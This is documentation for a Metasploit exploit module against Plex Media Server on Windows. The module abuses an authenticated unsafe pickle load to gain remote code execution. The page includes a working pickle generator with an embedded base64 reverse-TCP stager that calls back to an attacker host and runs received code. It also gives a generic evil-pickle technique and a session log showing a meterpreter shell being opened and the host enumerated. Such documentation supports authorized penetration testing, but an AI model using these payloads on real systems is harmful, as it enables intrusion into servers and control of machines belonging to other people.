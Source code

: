 ## Vulnerable Application

This module exploits an authenticated Python unsafe `pickle.load` of a
`Dict` file. An authenticated attacker can create a photo library and
add arbitrary files to it. After setting the Windows only Plex
variable `LocalAppDataPath` to the newly created photo library, a file
named `Dict` will be unpickled, which causes an RCE as the user who
started Plex.

If an exploit fails, or is cancelled, `Dict` is
left on disk, a new `ALBUM_NAME` will be required as subsuquent writes
will make `Dict-1`, and not execute.

A vulnerable version of the software can be downloaded from
[uptodown.com](https://plex-media-server.en.uptodown.com/windows/versions),
specifically [1.18.5.2309](https://plex-media-server.en.uptodown.com/windows/download/2177216)
is vulnerable and used for developing the module.

The plex server needs to be claimed by an account (free is ok), and the module `PLEX_TOKEN` option
needs permission to create a library, and upload files to it.

### Pickle Stub

This exploit requires a python pickle file which can be generated with the following
code:

```
import pickle

class EP(object):
    def __init__(self):
        pass
    def __reduce__(self):
        # for generating an approximately correct size and content, we use
        # msfvenom -p python/meterpreter/reverse_tcp LPORT=9999 LHOST=192.168.0.1
        # that payload is then added after runsource.
        # The original pre-meterp return would be
        # return (eval, ("__import__('code').InteractiveInterpreter().runsource(, '<input>', 'exec')",))
        return (eval, ("__import__('code').InteractiveInterpreter().runsource(\"exec(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('aW1wb3J0IHNvY2tldCxzdHJ1Y3QsdGltZQpmb3IgeCBpbiByYW5nZSgxMCk6Cgl0cnk6CgkJcz1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQoJCXMuY29ubmVjdCgoJzE5Mi4xNjguMC4xJyw5OTk5KSkKCQlicmVhawoJZXhjZXB0OgoJCXRpbWUuc2xlZXAoNSkKbD1zdHJ1Y3QudW5wYWNrKCc+SScscy5yZWN2KDQpKVswXQpkPXMucmVjdihsKQp3aGlsZSBsZW4oZCk8bDoKCWQrPXMucmVjdihsLWxlbihkKSkKZXhlYyhkLHsncyc6c30pCg==')[0]))\", '<input>', 'exec')",))

e = EP()
pickle.dumps(e)
```
### Pickle Gotchas

All the examples of Evil Pickle attacks seem to call one command/function.
[1](https://github.com/fhightower/evil-pickle/blob/master/evil_pickle_writer.py#L17),
[2](https://medium.com/@abhishek.dev.kumar.94/sour-pickle-insecure-deserialization-with-python-pickle-module-efa812c0d565),
[3](https://blog.nelhage.com/2011/03/exploiting-pickle/),
[4](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

However, @acammack-r7 suggested a way around this. using the `InteractiveInterpreter`.
Credit to them for this original code:

```
>>> class Bad(object):
...      def __reduce__(self):
...              return (eval, ("__import__('code').InteractiveInterpreter().runsource(\"print('ok')\", '<input>', 'exec')",))
... 
>>> x = Bad()
>>> s = pickle.dumps(x)
>>> pickle.loads(s)
ok
False
```

## Verification Steps

  1. Install the application
  2. Register/Connect it to a Plex account (Free or Plex Pass)
  3. Start msfconsole
  4. Do: ```use windows/http/plex_unpickle_dict_rce```
  5. Do: ```run```
  6. You should get a shell.

## Options

### ALBUM_NAME

Name of the photo album to create.  Default is random 6 character.

### LIBRARY_PATH

The path to write the photo library to.  Must be valid.  Default is `C:\\Users\\Public`

### PLEX_TOKEN

The `X-Plex-Token` value from requests from an authenticated session.

There are multiple ways to obtain this value.  The easiest is most likely opening the
Console on your web browser (F12) and typing `window.localStorage.myPlexAccessToken`.
However, it can also be obtained from
[plex library files](https://support.plex.tv/articles/204059436-finding-an-authentication-token-x-plex-token/)
or by following [this comment](https://github.com/rapid7/metasploit-framework/pull/13741#issuecomment-649076121)

### REBOOT_SLEEP

Amount of seconds to sleep waiting on the server to reboot.  In testing `10` seemed to be OK, default is `15`.

## Scenarios

### Plex 10.0.16299 on Windows 10 16299

    ```
    [*] Processing plex.rb for ERB directives.
    resource (plex.rb)> use exploit/windows/http/plex_unpickle_dict_rce
    resource (plex.rb)> set rhosts 2.2.2.2
    rhosts => 2.2.2.2
    resource (plex.rb)> set lhost 1.1.1.1
    lhost => 1.1.1.1
    resource (plex.rb)> set PLEX_TOKEN aa1g1aa3aaHbAtPBsEG7
    PLEX_TOKEN => aa1g1aa3aaHbAtPBsEG7
    resource (plex.rb)> set verbose true
    verbose => true
    msf5 exploit(windows/http/plex_unpickle_dict_rce) > exploit
    
    [*] Started reverse TCP handler on 1.1.1.1:4444
    [*] Gathering Plex Config
    [*] Server Name: EXPLOITABLE -win10
    [+] Server OS: Windows (10.0 (Build 16299))
    [+] Server Version: 1.18.5.2309-f5213a238
    [+] Camera Upload: 1
    [*] Using album name: TAtPGj
    [*] Adding new photo library
    [+] Created Photo Library: 163
    [*] Adding pickled Dict to library
    [*] Changing AppPath
    [*] Restarting Plex
    [*] Sending stage (53755 bytes) to 2.2.2.2
    [*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:51092) at 2020-07-03 14:13:08 -0400
    [*] Sleeping 15 seconds for server restart
    [*] Cleanup Phase: Reverting changes from exploitation
    [*] Changing AppPath
    [*] Restarting Plex
    [*] Deleting Photo Library
    
    meterpreter > getuid
    Server username: WIN10PROLICENSE\windows
    meterpreter > sysinfo
    Computer        : win10prolicensed
    OS              : Windows 10 (Build 16299)
    Architecture    : x64
    System Language : en_US
    Meterpreter     : python/windows
    meterpreter > pwd
    \\?\C:\Users\Public\TAtPGj\Plex Media Server\Plug-in Support\Data\com.plexapp.system
    ```
